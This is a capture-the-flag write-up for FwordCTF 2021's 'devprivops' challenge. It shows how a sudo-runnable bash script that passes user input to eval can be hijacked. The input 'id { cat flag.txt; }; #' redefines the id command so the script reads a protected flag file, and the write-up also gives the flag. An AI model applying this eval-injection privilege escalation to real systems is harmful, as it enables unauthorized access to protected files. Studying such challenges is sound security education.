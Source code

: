 ## Intro
**devprivops** was a bash challenge at FwordCTF 2021.  

You were given access to a linux machine through SSH as _user1_. In the home directory of the user two files of interest can be found - a [shell script](devops.sh) and a `flag.txt`. Both files belong to root and only another user on the system called _user-privileged_ was granted read access to the flag.

```
user1@da8cb1333b60:/home/user1$ ls -la
total 32
drwxrwxr-t 1 root  user1           4096 Aug 27 22:44 ./
drwxr-xr-x 1 root  root            4096 Aug 27 22:43 ../
-rw-r--r-- 1 user1 user1            220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 user1 user1           3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 user1 user1            807 Feb 25  2020 .profile
-rwxr-xr-x 1 root  user-privileged  945 Aug 27 22:09 devops.sh*
-rwxr----- 1 root  user-privileged   67 Aug 27 22:09 flag.txt*
```

Let's escalate!

## Investigation
By inspecting the shell script we learn that we can supply two parameters `-d` and `-p`.  

The `-d` parameter block essentially lets us input the name of a function which gets defined by `eval` and exported afterwards.

```bash
if [[ deploy -eq 1 ]];then
        echo -ne "Please enter your true name if you are a shinobi\n"  
        read -r name
        eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
        export -f $name
fi
```

Unfortunately, it seems we can never run it since it's impossible to get past the admin check.

```bash
isAdmin=0
# Ofc only admins can deploy stuffs o//
if [[ $isAdmin -eq 1 ]];then
        $name
fi
```

Or can we?

The evaluation of the `-p` parameter block follows directly after and prints out our current permissions by calling `id`.

```bash
if [[ $permission -eq 1 ]];then
        echo "You are: " 
        id
fi
```

## Solution
A quick `sudo -l` reveals we have the ability to execute [devops.sh](devops.sh) as the _user-privileged_.

```
user1@7c47d98c8907:/home/user1$ sudo -l
Matching Defaults entries for user1 on 7c47d98c8907:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 7c47d98c8907:
    (user-privileged) NOPASSWD: /home/user1/devops.sh
```

So we execute the script as `sudo -u user-privileged ./devops.sh -d -p` and input the payload `id { cat flag.txt; }; #`, overwriting the `id` function with our malicious one. When the `-p` parameter block gets evaluated afterwards and our `id` is called, the flag gets exposed!

> FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
